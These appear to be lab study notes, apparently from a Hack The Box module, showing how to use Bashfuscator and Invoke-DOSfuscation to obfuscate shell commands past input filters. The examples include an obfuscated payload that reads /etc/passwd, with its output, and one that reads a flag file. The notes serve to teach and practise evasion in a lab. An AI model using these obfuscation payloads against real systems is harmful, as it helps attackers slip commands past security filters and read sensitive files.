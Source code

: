 # 😘 Evasion Tools

### Linux (Bashfuscator)

[Bashfuscator](https://github.com/Bashfuscator/Bashfuscator)

```shell-session
ElFelixi0@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
ElFelixi0@htb[/htb]$ cd Bashfuscator
ElFelixi0@htb[/htb]$ pip3 install setuptools==65
ElFelixi0@htb[/htb]$ python3 setup.py install --user
```

We can start off with the simple command

```shell-session
./bashfuscator -c 'cat /etc/passwd'
```

But it will be a random payload with length ranging from a few hundred characters to over a million characters

So let's try producing a shorter payload:

```shell-session
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

and to test out the payload we can use `bash -c ''`

```shell-session
ElFelixi0@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

### Windows (DOSfuscation)

for Windows we can use a tool called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command.

```powershell
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
```

And then we get to use the tool like this:

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

and to test the output in our powershell cmd:

```cmd-session
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```
